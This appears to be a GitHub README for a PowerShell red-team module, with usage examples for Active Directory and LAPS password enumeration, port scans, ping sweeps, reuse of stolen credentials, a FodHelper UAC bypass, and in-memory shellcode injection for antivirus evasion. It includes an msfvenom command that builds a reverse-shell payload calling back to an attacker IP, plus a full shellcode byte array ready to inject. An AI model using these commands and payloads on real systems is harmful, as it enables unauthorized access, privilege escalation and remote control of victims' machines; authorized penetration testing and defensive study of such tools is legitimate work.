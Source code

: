 # PowerShell-Red-Team-Enum
Collection of PowerShell functions a Red Teamer may use to collect data from a machine or gain access to a target. I added ps1 files for the commands that are included in the RedTeamEnum module. This will allow you to easily find and use only one command if that is all you want. If you want the entire module perform the following actions after downloading the RedTeamEnum directory and contents to your device.
```powershell
C:\PS> robocopy .\RedTeamEnum $env:USERPROFILE\Documents\WindowsPowerShell\Modules\RedTeamEnum *
# This will copy the module to a location that allows you to easily import it. If you are using OneDrive sync you may need to use $env:USERPROFILE\OneDrive\Documents\WindowsPowerShell\Modules\RedTeamEnum instead.

C:\PS> Import-Module -Name RedTeamEnum -Verbose
# This will import all the commands in the module. 

C:\PS> Get-Command -Module RedTeamEnum
# This will list all the commands in the module.
```

- Convert-Base64.psm1 is a function as the name states for encoding and/or decoding text into Base64 format.
```powershell
C:\PS> Convert-Base64 -Value "Convert me to base64!" -Encode

C:\PS> Convert-Base64 -Value "Q29udmVydCBtZSB0byBiYXNlNjQh" -Decode
```

- Get-LdapInfo is a function I am very proud of for performing general LDAP queries. Although only two properties will show in the output, all of the properties associated with object can be seen by piping to Select-Object -Property * or using the -Detailed switch parameter.
```powershell
C:\PS> Get-LdapInfo -Detailed -SPNNamedObjects
# The above returns all the properties of the returned objects
#
C:\PS> Get-LdapInfo -DomainControllers | Select-Object -Property 'Name','ms-Mcs-AdmPwd'
# If this is run as admin it will return the LAPS password for the local admin account
#
C:\PS> Get-LdapInfo -ListUsers | Where-Object -Property SamAccountName -like "user.samname"
# NOTE: If you include the "-Detailed" switch and pipe the output to where-object it will not return any properties. If you wish to display all the properties of your result it will need to be carried out using the below format
#
C:\PS> Get-LdapInfo -AllServers | Where-Object -Property LogonCount -gt 1 | Select-Object -Property * 
 
```

- Test-PrivEsc is a function that can be used for finding whether WSUS updates over HTTP are vulnerable to PrivEsc, Clear Text credentials are stored in common places,  AlwaysInstallElevated is vulnerable to PrivEsc, Unquoted Service Paths exist, and enum of possible weak write permissions for services.
```powershell
 C:\PS> Test-PrivEsc
```

- Get-InitialEnum is a function for enumerating the basics of a Windows Operating System to help better display possible weaknesses.
```powershell
 C:\PS> Get-InitialEnum
```

- Start-SimpleHTTPServer is a function used to host an HTTP server for downloading files. It is meant to be similart to pythons SimpleHTTPServer module. Directories are not traversable through the web server. The files that will be hosted for download will be from the current directory you are in when issuing this command.
```powershell
C:\PS> Start-SimpleHTTPServer
Open HTTP Server on port 8000

#OR
C:\PS> Start-SimpleHTTPServer -Port 80
# Open HTTP Server on port 80
```

- Invoke-PortScan.ps1 is a function for scanning all possible TCP ports on a target. I will improve in future by including UDP as well as the ability to define a port range.
```powershell
 C:\PS> Invoke-PortScan -IpAddress 192.168.0.1
```

- Invoke-PingSweep is a function used for performing a ping sweep of a subnet range. 
```powershell
Invoke-PingSweep -Subnet 192.168.1.0 -Start 192 -End 224 -Source Singular
# NOTE: The source parameter only works if IP Source Routing value is "Yes"

Invoke-PingSweep -Subnet 10.0.0.0 -Start 1 -End 20 -Count 2
# Default value for count is 1

Invoke-PingSweep -Subnet 172.16.0.0 -Start 64 -End 128 -Count 3 -Source Multiple
```

- Invoke-UseCreds is a function I created to simplify the process of using obtained credentials during a pen test. 
```powershell
# The below command will use the entered credentials to open the msf.exe executable as the user tobor
Invoke-UseCreds -Username 'OsbornePro\tobor' -Password 'P@ssw0rd1' -Path .\msf.exe -Verbose
```

- Invoke-FodHelperBypass is a function that tests whether or not the UAC bypass will work before executing it to elevate priviledges. This of course needs to be run by a member of the local administrators group as this bypass elevates the priviledges of the shell you are in. You can define the program to run which will allow you to execute generaate msfvenom payloads as well as cmd or powershell or just issuing commands.
```powershell
Invoke-FodHelperBypass -Program "powershell" -Verbose
# OR 
Invoke-FodHelperBypass -Program "cmd /c msf.exe" -Verbose
```

- Invoke-InMemoryPayload is used for AV Evasion using an In-Memory injection. This will require the runner to generate an msfvenom payload using a command similar to the example below, and entering the "[Byte[]] $buf" variable into Invoke-InMemoryPayloads "ShellCode" parameter.
```bash
# Generate payload to use
msfvenom -p windows/meterpreter/shell_reverse_tcp LHOST=192.168.137.129 LPORT=1337 -f powershell
```
Start a listener, use that value in the "ShellCode" parameter, and run the command to gain your shell. This will also require certain memory protections to not be enabled. 
__NOTE:__ Take note there are __NOT ANY DOUBLE QUOTES__ around the ShellCode variables value. This is because it is expecting a byte array.
```powershell
Invoke-InMemoryPayload -Payload 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0xf,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x1,0xd0,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x67,0x48,0x1,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x1,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x1,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x41,0x8b,0xc,0x48,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x41,0x8b,0x4,0x88,0x48,0x1,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,0x32,0x0,0x0,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x1,0x0,0x0,0x49,0x89,0xe5,0x49,0xbc,0x2,0x0,0x5,0x39,0xc0,0xa8,0x89,0x81,0x41,0x54,0x49,0x89,0xe4,0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x7,0xff,0xd5,0x4c,0x89,0xea,0x68,0x1,0x1,0x0,0x0,0x59,0x41,0xba,0x29,0x80,0x6b,0x0,0xff,0xd5,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x48,0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,0x99,0xa5,0x74,0x61,0xff,0xd5,0x48,0x81,0xc4,0x40,0x2,0x0,0x0,0x49,0xb8,0x63,0x6d,0x64,0x0,0x0,0x0,0x0,0x0,0x41,0x50,0x41,0x50,0x48,0x89,0xe2,0x57,0x57,0x57,0x4d,0x31,0xc0,0x6a,0xd,0x59,0x41,0x50,0xe2,0xfc,0x66,0xc7,0x44,0x24,0x54,0x1,0x1,0x48,0x8d,0x44,0x24,0x18,0xc6,0x0,0x68,0x48,0x89,0xe6,0x56,0x50,0x41,0x50,0x41,0x50,0x41,0x50,0x49,0xff,0xc0,0x41,0x50,0x49,0xff,0xc8,0x4d,0x89,0xc1,0x4c,0x89,0xc1,0x41,0xba,0x79,0xcc,0x3f,0x86,0xff,0xd5,0x48,0x31,0xd2,0x48,0xff,0xca,0x8b,0xe,0x41,0xba,0x8,0x87,0x1d,0x60,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x6,0x7c,0xa,0x80,0xfb,0xe0,0x75,0x5,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x0,0x59,0x41,0x89,0xda,0xff,0xd5 -Verbose
```
![Invoke-InMemoryPayload Image](https://raw.githubusercontent.com/tobor88/PowerShell-Red-Team/master/InvokeInMemPayloadImg.png)
